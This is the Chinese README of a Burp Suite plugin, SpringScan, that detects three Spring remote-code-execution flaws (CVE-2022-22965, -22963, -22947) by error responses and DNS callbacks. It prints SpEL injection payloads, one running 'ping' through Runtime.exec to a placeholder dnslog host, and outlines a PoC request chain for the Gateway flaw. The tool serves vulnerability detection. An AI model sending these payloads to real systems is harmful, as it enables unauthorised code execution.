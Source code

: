 # SpringScan Burp 检测插件

## 支持检测漏洞

- [x] Spring Core RCE (**CVE-2022-22965**)
- [x] Spring Cloud Function SpEL RCE (**CVE-2022-22963**)
- [x] Spring Cloud GateWay SPEL RCE (**CVE-2022-22947**)

## 回连平台

- [x] Dnglog
- [x] BurpCollaboratorClient
- [x] Ceye
- [x] Digpm  (默认)
- [ ] 支持自定义回连平台

### CVE-2022-22965 检测方法

利用条件

* JDK9及其以上版本；
* 使⽤了Spring-beans包； 
* 使⽤了Spring参数绑定，参数绑定使⽤的是⾮基本参数类型，如POJO ；

* 使用Tomcat部署，且日志记录功能开启（默认开启）

因为这个洞上传shell还需要准确的web路径（默认在webapps\ROOT），写ssh和计划任务也需要root权限。实战中用exp去检测漏洞不太现实，所以思路转变到使用其他方法去检测漏洞的存在性。主要通过下面两种方式检测：

* 报错检测
* 回连检测（BurpCollaboratorClient/Dnglos/Ceye）

详细原理 ➡️ [https://www.t00ls.cc/articles-65348.html](https://www.t00ls.cc/articles-65348.html)

检测置信度：

> 回连检测 > 报错检测

报错检测误报率较大(默认关闭)，可能存在漏洞但不能保证JDK版本大于等于**9**，可以及时捕捉到不出网的漏洞；回连检测准确率高，不适用于不出网环境。
推荐在内网的环境只开启报错检测，在公网环境开报错检测和回连检测。

### CVE-2022-22963 检测方法 

利用条件

* 默认路由`/functionRouter`存在SpEL表达式注入

两种检测方法：

* 通过Java自带InetAddres库：`spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("xxx.dnslog.cn")`回连探测（可绕过WAF拦截命令执行进行漏洞探测）
* 通过执行`ping`命令：`spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping xxx.dnslog.cn")`回连探测
* 会扫描当前URI、以及当前URI拼接默认路由`/functionRouter`进行漏洞探测。

### CVE-2022-22947 检测方法

* 利用条件

该漏洞为当Spring Cloud Gateway启用和暴露 Gateway Actuator 端点时，使用 Spring Cloud Gateway 的应用程序可受到代码注入攻击。攻击者可以发送特制的恶意请求，从而远程执行任意代码。

检测方法：

* 首先随机访问一个不存在的路径，根据特征`Whitelabel Error Page`判断是否是Spring框架；是则打POC，分五个请求：`包含恶意SpEL表达式的路由 -> 刷新路由 -> 访问添加的路由查看RCE结果 -> 删除路由 -> 刷新路由`

## 插件情况

|  **报错检测**   | **回连检测**  | **自带检测**  |
|  :----:  | :----:  | :----:  |
| Spring Core RCE  | Spring Core RCE | Spring Cloud GateWay SPEL RCE |
| x  | Spring Cloud Function SpEL RCE | x |

## 编译

如需编译其他JDK版本，可参考如下方法编译jar包：

![image-20220409120135726](imgs/image-20220409120135726.png)

<img src="imgs/image-20220409120218010.png" alt="image-20220409120218010" style="zoom:50%;" />

<img src="imgs/image-20220409120315324.png" alt="image-20220409120315324" style="zoom:50%;" />

<img src="imgs/image-20220409120455863.png" alt="image-20220409120455863" style="zoom:50%;" />

## 截图

加载插件成功

![image-20220409120649662](imgs/image-20220409120649662.png)

漏洞检测情况

![image-20220411234911184](imgs/image-20220411234911184.png)

![image-20220411234930710](imgs/image-20220411234930710.png)

![image-20220411234948718](imgs/image-20220411234948718.png)

报错检测情况

![image-20220425233957353](imgs/image-20220425233957353.png)

插件设置，检测方法默认全开启，回连平台默认`Dig.pm`(推荐)

![image-20220409120720309](imgs/image-20220409120720309.png)

![image-20220413012818703](imgs/image-20220413012818703.png)

target 模块中可以看到漏洞详情

![image-20220409124402852](imgs/image-20220409124402852.png)

## 免责声明

本工具仅作为安全研究交流，请勿用于非法用途。如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，本人将不承担任何法律及连带责任。
